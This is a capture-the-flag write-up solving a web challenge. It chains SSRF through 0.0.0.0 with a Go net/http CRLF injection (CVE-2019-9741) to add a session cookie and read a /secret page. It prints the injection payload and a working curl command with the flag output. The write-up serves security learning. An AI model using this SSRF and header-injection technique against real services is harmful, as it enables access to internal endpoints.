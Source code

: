 ```yaml
---
title: Hexpresso FIC Quals 2019: Step 6
slug: hexpresso-fic-6
date: 20/12/2019
---
```


The sixth step is a WEB application that allows us to fetch an URL.

![Introduction](/assets/hexpresso-fic-quals/step6/intro.png)

In the source code of the page we can read:

```html
<div class="col s12">
    <!-- <span>PS: To get your flag go here: <a href="/secret">/secret</a></span> -->
</div>
```

So, our objective is to access `/secret`. Let's see:

![Secret](/assets/hexpresso-fic-quals/step6/secret.png)

Coming from `127.0.0.1` should not be a big deal using the URL fetcher
itself, right? This challenge really looks like a standard SSRF anyways...

![Not so easy](/assets/hexpresso-fic-quals/step6/not_so_easy.png)

*Note: we must add a GET parameter because the script appends
`:80/` at the end of the URL. We could deal with it but its more convenient
to totally absorb it.*

It seems that `0.0.0.0` is reachable. We should now be coming from `127.0.0.1`
but there is something else. We are missing the `GOSESSION` cookie.

I tried to trick the applicaion for some time but the problem is clear: we
have to control the body of the query that the URL fetcher performs in order to
add the cookie.

At this point, I was very sad and did not know what to do. I was about to
give up when my teammate [Plean](https://twitter.com/plean702) sent me
[this link](https://github.com/golang/go/issues/30794).

[CVE-2019-9741](https://nvd.nist.gov/vuln/detail/CVE-2019-9741) is a CRFL
injection, in the `net/http` package of Go (version 1.11). It is exactly
what we need as it allows to write the body of the query.

I tweaked the example payload of the GitHub (see the link above) issue and
came up with this:

```
0.0.0.0/secret?b%3d%20HTTP/1.1%0d%0aCookie:%20GOSESSION%3dabc
```

A bit more readble:

```
0.0.0.0/secret?b= HTTP/1.1\r
Cookie: GOSESSION=abc
```

The original body will still be present, after ours, but it does not matter.

Because we have to deal with CRLFs, it is easier to urlencode the payload.
However, the URL fetcher interface does not handle it well. We can use `curl`
instead:

Final command:

```
$ curl 'http://c4ffddcc437c5df3e6d681e7cafab510.hexpresso.fr/host?host=0.0.0.0/secret?b%3d%20HTTP/1.1%0d%0aCookie:%20GOSESSION%3dabc%0d%0aSHIT:%20123' | jq -r ".content" | base64 -D
{"ok":true,"message":"Ok here is your flag ...","flag":"Gg ! Send mail here 9ca37832b9fb80-penultimate-stage@hexpresso.fr ! But there is one last step here for the brave available on : https://ctf.hexpresso.fr/219058289d8699adc0b119374c2fc5bc"}
```

I took a break at this point but my teammate Shiro continued on step 7. Please,
take a look at [his writeup](https://github.com/Pycatchown/writeUps/blob/master/FIC/step7/wu_step7.md).
